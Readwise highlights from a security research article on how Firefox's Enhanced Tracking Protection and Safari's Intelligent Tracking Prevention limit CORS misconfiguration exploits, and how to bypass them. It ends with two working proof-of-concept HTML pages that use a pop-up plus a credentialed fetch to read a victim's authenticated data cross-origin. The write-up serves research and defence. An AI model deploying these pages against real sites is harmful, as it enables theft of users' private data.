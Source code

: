 ```yaml
---
author: "admin"
aliases: "Bypassing Browser Tracking Protection for CORS Misconfiguration Abuse"
tags: RW_inbox, readwise/articles
url: https://swarm.ptsecurity.com/bypassing-browser-tracking-protection-for-cors-misconfiguration-abuse/?__readwiseLocation=
date: 2025-04-24
summary: Web browsers have a security feature called Same-Origin Policy that restricts cross-origin requests, but misconfigurations in CORS can lead to vulnerabilities. Different browsers implement varying levels of cookie security, with features like Enhanced Tracking Protection (ETP) and Intelligent Tracking Prevention (ITP) affecting how cookies are handled in cross-origin requests. This article explores these behaviors and demonstrates how to bypass tracking protections using specific techniques.
---
```

# Bypassing Browser Tracking Protection for CORS Misconfiguration Abuse

![rw-book-cover](https://swarm.ptsecurity.com/wp-content/uploads/2024/01/b59b8da5-Figure-5.png)

## Highlights


Updates in browser security mechanisms
 Chrome’s recent change in default settings has further impacted the exploitation of CORS misconfigurations. Specifically, Chrome now defaults the `SameSite` attribute of cookies to `Lax`, which limits cookies to same-site requests or `GET` requests for top-level navigation. [](https://read.readwise.io/read/01jg6s1a8cnawz6b9svfjq66rh)



Consequently, subdomain takeover or XSS attacks have become the primary methods of exploiting CORS misconfigurations. [](https://read.readwise.io/read/01jg6s21vdr7k2m4execrcvr8w)



Tracking protection in Firefox and Safari
 According to statistics from Statcounter in October 2023, Firefox commands 3.06% of the desktop browser market, while Safari commands 19.91%. [](https://read.readwise.io/read/01jg6s5jrtc0cj7skft5ysc659)



Firefox: Enhanced Tracking Protection
 Mozilla first introduced Tracking Protection in Firefox with the release of Firefox 42 in November 2015. It aimed to protect user privacy by blocking web content from known trackers provided by Disconnect, a privacy-focused company. However, this feature was not enabled by default and only worked in private browsing mode.
 The feature received a significant upgrade with the launch of Firefox 69 in September 2019. This upgrade, called Enhanced Tracking Protection (ETP), was enabled by default for all users. ETP takes a more proactive approach to protecting user privacy by automatically blocking third-party tracking cookies. It also provides an option to block fingerprints (trackers that identify and track users based on their device configuration).
 Despite these developments, cross-origin requests with credentials continued to operate as normal, and exploitation of misconfiguration was not considered a significant problem. However, this changed with the introduction of Firefox 103.
 [![](https://swarm.ptsecurity.com/wp-content/uploads/2024/01/e518c2fa-Untitled.png)](https://swarm.ptsecurity.com/wp-content/uploads/2024/01/e518c2fa-Untitled.png)
 Figure 3. Part of the changelog
 After that, cookies were only sent if the resources shared the same root domain.
 The ETP icon is located in the URL bar on the left of the SSL icon and looks like a shield.
 ![](https://swarm.ptsecurity.com/wp-content/uploads/2024/01/f1c5896f-Untitled-1.png)
 Figure 4. The ETP information window
 ETP has additional settings including exceptions and protection templates.
 ![](https://swarm.ptsecurity.com/wp-content/uploads/2024/01/408aeae2-Untitled-2.png) [](https://read.readwise.io/read/01jg6sevkbd26chbsnymps488c)



Safari: Intelligent Tracking Prevention
 Apple, on the other hand, introduced its defense mechanism against cross-site tracking with the release of Safari 11 in September 2017. This feature, named Intelligent Tracking Prevention (ITP), uses machine learning algorithms to identify and block trackers that attempt to access a user’s cookies across multiple sites.
 Initially, ITP was not enabled by default and users had to manually turn on the “Prevent cross-site tracking” option in settings. However, with the rollout of Safari 12.1 in March 2019, ITP was enabled by default. Furthermore, Apple has continued to update and improve ITP, making it more effective at combating different forms of cross-site tracking.
 Typically, it’s enabled by default in Safari 17, but there are some rare exceptions.
 ITP settings are located on the Privacy tab in Safari settings.
 ![](https://swarm.ptsecurity.com/wp-content/uploads/2024/01/732bdc9f-Untitled-6.png) [](https://read.readwise.io/read/01jg6sg70s1fg60rk9p54wp8y4)



the result of the tracking protection mechanism in Safari is the same as in Firefox [](https://read.readwise.io/read/01jg6shkqqt7a00xt80yq8m866)



Bypassing tracking protectionFirefox
 Let’s start with Firefox.
 How can we bypass this tracking protection? Our colleague and experienced researcher [Igor Sak-Sakovskiy](https://twitter.com/Psych0tr1a) has suggested a technique that involves using a user-initiated action to open a new tab and then performing a cross-origin request with credentials. [](https://read.readwise.io/read/01jg6skpmq48x7561pp7q03f4k)



• When a partitioned third-party opens a pop-up window that has opener access to the originating document, the third-party is granted storage access to its embedder for 30 days.
 • When a first-party `a.example` opens a third-party pop-up `b.example`, `b.example` is granted third-party storage access to `a.example` for 30 days. [](https://read.readwise.io/read/01jg6skw6p78bzpsqy6q54y0kg)



bypass.html:
 <body>
 <p>Click anywhere on this page to trigger the Cross-origin request.</p>
 <div id="response"></div>
 <script>
 document.addEventListener("DOMContentLoaded", () => {
 document.onclick = () => {
 open('https://vuln-cors.nicksv.com/');
 fetch('https://vuln-cors.nicksv.com/', {
 method: 'GET',
 credentials: 'include',
 mode: 'cors'
 })
 .then(response => response.json())
 .then(data => {
 document.getElementById('response').innerHTML = JSON.stringify(data, null, 2);
 })
 .catch(error => {
 console.log('Failed to issue Cross-origin request');
 });
 }
 });
 </script>
 </body> [](https://read.readwise.io/read/01jg6sm3bb1rqvbwpdjff4cstp)



Safari
 To bypass ITP in Safari, we will need to slightly modify the bypass script. Let’s add a two-second timeout before the cross-origin request. Otherwise, it may be unstable.
 safari.html:
 <body>
 <p>Click anywhere on this page to trigger the CORS request.</p>
 <div id="response"></div>
 <script>
 document.addEventListener("DOMContentLoaded", () => {
 document.onclick = () => {
 open('https://vuln-cors.nicksv.com/');
 setTimeout(() => {
 fetch('https://vuln-cors.nicksv.com/', {
 method: 'GET',
 credentials: 'include',
 mode: 'cors'
 })
 .then(response => response.json())
 .then(data => {
 document.getElementById('response').innerHTML = JSON.stringify(data, null, 2);
 })
 .catch(error => {
 console.log('Failed to issue Cross-origin Request');
 });
 }, 2000);
 }
 });
 </script>
 </body> [](https://read.readwise.io/read/01jg6snxkptb2rm68c4xdntqtr)

